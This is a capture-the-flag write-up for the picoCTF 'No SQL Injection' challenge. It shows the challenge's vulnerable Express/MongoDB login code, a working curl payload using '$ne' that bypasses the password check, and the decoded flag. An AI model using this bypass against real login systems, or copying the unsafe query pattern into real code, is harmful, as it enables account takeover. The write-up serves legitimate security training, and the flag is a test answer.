 # No SQL Injection — Pico Gym

> **Room / Challenge:** No SQL Injection (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** No SQL Injection (web)
- **Link**: `https://play.picoctf.org/practice/challenge/443`
- **Difficulty:** `Medium`
- **Date:** `23-10-2025`

---

## Goal

We have to get the flag by using No SQL Injection.

## My Solution

You can download the source code [here](./app.tar.gz)

The `server.js` is simple with three routes:

```javascript
// Serve the HTML form
app.get("/", (req, res) => {
  res.sendFile(path.join(__dirname, "index.html"));
});

// Serve the admin page
app.get("/admin", (req, res) => {
  res.sendFile(path.join(__dirname, "admin.html"));
});

// Handle login form submission with JSON
app.post("/login", async (req, res) => {
  const { email, password } = req.body;

  try {
    const user = await User.findOne({
      email:
        email.startsWith("{") && email.endsWith("}")
          ? JSON.parse(email)
          : email,
      password:
        password.startsWith("{") && password.endsWith("}")
          ? JSON.parse(password)
          : password,
    });

    if (user) {
      res.json({
        success: true,
        email: user.email,
        token: user.token,
        firstName: user.firstName,
        lastName: user.lastName,
      });
    } else {
      res.json({ success: false });
    }
  } catch (err) {
    res.status(500).json({ success: false, error: err.message });
  }
});
```

Examining the code the only way to get the flag is by logging in as `picoplayer355@picoctf.org` and then get the token which is set default to `flag` in `userSchema`:

```javascript
const userSchema = new mongoose.Schema({
  email: { type: String, required: true, unique: true },
  firstName: { type: String, required: true },
  lastName: { type: String, required: true },
  password: { type: String, required: true },
  token: { type: String, required: false, default: "{{Flag}}" },
});
```

Like SQL Injection, there are loads of common payloads to exploit No SQL Injection and with this simple payload `{\"$ne\":null}`, I created a simple `curl` command to log in as `picoplayer355@picoctf.org` and get the token:

```bash
curl -s -X POST http://SERVER/login \
  -H "Content-Type: application/json" \
  -d '{"email":"picoplayer355@picoctf.org","password":"{\"$ne\":null}"}'


{"success":true,"email":"picoplayer355@picoctf.org","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==","firstName":"pico","lastName":"player"}
```

The token looks like a base64 hash so I decode it and get the flag:

```bash
echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==" | base64 -d

picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}
```

Flag: `picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}`
